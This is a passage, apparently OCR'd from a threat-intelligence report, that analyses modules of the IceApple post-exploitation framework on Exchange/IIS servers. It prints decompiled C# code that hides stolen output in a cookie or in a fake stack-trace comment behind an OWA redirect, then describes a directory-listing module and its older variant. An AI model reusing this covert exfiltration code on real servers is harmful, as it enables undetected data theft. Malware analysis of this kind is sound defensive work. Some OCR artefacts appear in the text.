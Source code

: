 ```
if (text.Length < 20480)
   HttpRequest request = HttpContext.Current.Request;
   response.Cookies["X-BackEndCookies"].Value = "As7" + text;
   string text2 = string.Concat(new string[]
   {
       "
       request. Url. Host,
       "/owa/auth/logon.aspx?url=",
       Uri.EscapeDataString(request.Url.ToString()),
       "&reason=0"
   });
   string s = "<html><head><title>Object
moved</title></head><body>\r\n<h2>Object moved to <a href=\"" +
text2 + "\">here</a>.</h2>\r\n</body></html>";
   response.StatusCode = 302;
   response.RedirectLocation = text2;
   response. Clear ( ) ;
   response. Write (s) ;
else
   response. StatusCode = 302;
   response. RedirectLocation =
"/owa/auth/errorFE.aspx?httpCode=500";
   response. Clear ( ) ;
   response. Write (" < ! -- \r\nStack Trace: \r\nFzM" + text + "\r\n -->") ;
```
Figure 11. Previous version of Result Retriever

## MODULE 4: APP_WEB_YBRA1DR2 — DIRECTORY LISTER

The Directory Lister module lists information about a list of files and directories including:

- Creation time
- Last write time
- Name
- Size

Directory Lister differs from other IceApple modules in that it performs parameter extraction in the Equals function before calling a second function named Run, which contains the module's functionality.

#### Parameters

Accepts a pipe-delimited list of files and directories to list.

## MODULE 5: APP_WEB_8MYTEDC8 - ANOTHER VERSION OF MODULE 4

OverWatch observed an older version of Directory Lister with the assembly name App Web 8mytedc8 thatuses the Equals function for both parameter extraction and module functionality. App Web 8my ted 8 is functionally identical to Directory Lister.

## MODULE 6: APP_WEB_HP8VZZB4 - FILE WRITER

